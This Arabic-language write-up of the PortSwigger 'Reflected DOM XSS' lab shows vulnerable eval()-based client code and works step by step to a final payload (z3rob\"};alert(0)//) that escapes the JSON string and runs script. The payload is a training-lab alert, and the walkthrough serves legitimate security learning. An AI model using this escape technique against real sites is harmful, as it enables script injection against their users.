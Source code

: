 ### 1️⃣ معلومات عامة

|العنصر|التفاصيل|
|---|---|
|**رابط اللاب**|[Reflected DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected)|
|**تاريخ الحل**|29 / 4 / 2025|
|**نوع الثغرة**|Reflected DOM XSS|

---
### 2️⃣ فهم سيناريو اللاب

- الموقع يحتوي على خانة **بحث**.

- عند كتابة أي كلمة والضغط على **Search**، يتم **عرض الكلمة** داخل صفحة النتائج.

![[Pasted image 20250429183843.png]]

---

### 3️⃣ تحليل الكود المصدر (Source Code)

- بصيت على الـ source code وملقتش حاجة.
    
- ففتحت Burp Suite وبعت الطلب ودا اللي ظهر:
    

![[Pasted image 20250429184917.png]]

- لكن لما بصيت تاني لقيت فيه **رد إضافي**، وكان فيه الكود الخطر دا:
    

```js
if (this.readyState == 4 && this.status == 200) {
  eval('var searchResultsObj = ' + this.responseText);
  displaySearchResults(searchResultsObj);
}
```

- الكود بياخد الرد من السيرفر ويحطه في دالة `eval()`، اللي بتتعامل مع أي input كأنه كود JavaScript وبتنفذه.
    

![[Pasted image 20250429185440.png]]

---

### 4️⃣ تحليل طريقة الاستغلال

#### ❗ المشكلة:

الرد من السيرفر بيكون كدا:

```json
{
  "results": [],
  "searchTerm": "z3rob"
}
```

ولو حطينا كود داخل `searchTerm`، هيتعامل كـ string ومش هيتنفذ كـ JavaScript.

---

### ✅ الحل: نكسر بناء الـ JSON

#### الخطوة 1️⃣: نحاول نخرج من الـ string

جربنا نحط:

```
results?search=z3rob"
```

وكان الرد:

```json
{
  "results": [],
  "searchTerm": "z3rob\""
}
```

- الرد أضاف `\` علشان يمنع كسر السلسلة.
    

##### ➤ الحل:

نضيف `\` إحنا كمان، فيصبح كدا:

```
results?search=z3rob\\"
```

فيرد السيرفر:

```json
{
  "results": [],
  "searchTerm": "z3rob\\\""
}
```

نجحنا في كسر تسلسل الـ string.

---

#### الخطوة 2️⃣: نحاول نخرج من الـ JSON كله ونضيف JavaScript

جربنا نحط:

```
z3rob\\""}alert(0)//
```

لكن الكود **مشتغلش**.

---

### ❓ سؤال: **ليه الكود مشتغلش؟**

```js
z3rob\\""}alert(0)//
```

👆 الكود ده مشتغلش لأننا **نسينا نحط فاصلة منقوطة `;`**.

### ✅ التفسير:

- لازم الكود اللي داخل `eval()` يكون صحيح نحويًا.
    
- بدون `;`، المتصفح ممكن يربط `alert(0)` بالجملة اللي قبلها، وده يسبب خطأ.
    

---

### ✔️ الحل النهائي (Final Payload)

```js
z3rob\"};alert(0)//
```

✅ وتم تنفيذ الـ `alert(0)` بنجاح!

![[Pasted image 20250429191855.png]]

---

هل تحب أحول لك الملاحظات دي لملف Markdown أو PDF؟